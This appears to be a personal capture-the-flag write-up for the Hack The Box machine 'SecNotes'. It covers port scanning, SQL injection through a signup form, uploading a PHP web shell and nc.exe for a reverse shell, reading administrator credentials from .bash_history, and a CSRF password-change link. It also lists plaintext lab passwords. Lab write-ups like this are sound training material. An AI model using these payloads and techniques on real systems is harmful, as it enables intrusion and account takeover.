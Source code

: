 # Enumeration 
## Nmap
80/tcp  open  http         syn-ack Microsoft IIS httpd 10.0                                                                                                  
445/tcp open  microsoft-ds syn-ack Microsoft Windows 7 - 10 microsoft-ds (workgroup: HTB) 
### full port scan
8808/tcp open  http    Microsoft IIS httpd 10.0


## Port 445

No anonymous login allowed



# Foothold 




# Privesc 
## port 80
trying sql injection ddin't work
![[Pasted image 20230110182434.png]]

^secnotestyler

there is a sign up link 
trying to inject sign up using sql injection and looks like it worked and account was made ^5b040c

Username: `' Or 1=1-- -`
	Password: ' Or 1=1-- -

![[Pasted image 20230110182620.png]]
and looks like we have notes for all users inside the Secure Notes



![[Pasted image 20230110182723.png]]
from the syntax 
^secnotessmb

```
\\secnotes.htb\new-site
tyler / 92g!mA8BGjOirkL%OG*&
```

## port 8808
Trying psexec but not working so accessing the share
and looks like it's default IIS server and looks like it's the one at port 8808 and it's running php from the .png and htm files and we can upload files to the website so let's upload simple php web shell
![[Pasted image 20230110194126.png]]

![[Pasted image 20230110194042.png]]
![[Pasted image 20230110194136.png]]
and we have control of the website 
uploading rev shell and executing it using nc 
start listener 
```
nc -lvnp 9001
```
upload nc.exe to the server 
![[Pasted image 20230110195226.png]]

![[Pasted image 20230110195238.png]] 
![[Pasted image 20230110195348.png]]
and we have a shell

# Privesc

inside user directory we found 

![[Pasted image 20230110205304.png]]

![[Pasted image 20230110205357.png]]

looks like bash is running on the system running where command to find the .exe file

```
where /R c:\windows bash
```
![[Pasted image 20230110210155.png]]
![[Pasted image 20230110210207.png]]
inside .bash_history
![[Pasted image 20230110210334.png]]

^secnotesadmin

found administrator creds
running psexec
![[Pasted image 20230110210515.png]] 

# Alternative ways to user

Sign up to the secnotes.htb and login

![[Pasted image 20230110211239.png]]
![[Pasted image 20230110211300.png]]
sending this request through burp 
![[Pasted image 20230110211330.png]]
there is no CSRF header and user doesn't need to confirm their old passsword
creating CSRF attack by changing POST method to GET and send it to tyler user
![[Pasted image 20230110211542.png]]
We can contact tyler by sending him message from Contact Us
![[Pasted image 20230110211718.png]]
Testing if we get call back 
![[Pasted image 20230110211855.png]]
![[Pasted image 20230110211906.png]]
CSRF url
```
http://secnotes.htb/change_pass.php?password=superxdd&confirm_password=superxdd&submit=submit 
```
![[Pasted image 20230110212037.png]]


# Loot

tyler account:
	tyler@secnotes.htb 

SecNotes [creds](SecNotes#^secnotestyler):
	Username: `' Or 1=1-- -`
	Password: ' Or 1=1-- -

SMB tyler [creds](SecNotes#^secnotessmb):
	Username: tyler 
	Password: 92g!mA8BGjOirkL%OG*&

SMB administrator  [creds:](SecNotes#^secnotesadmin):
	Username: administrator
	Password: u6!4ZwgwOM#^OBf#Nwnh

---
Tags: #HTB #ctf #smb 
Resources: [SecNotes](https://app.hackthebox.com/machines/SecNotes)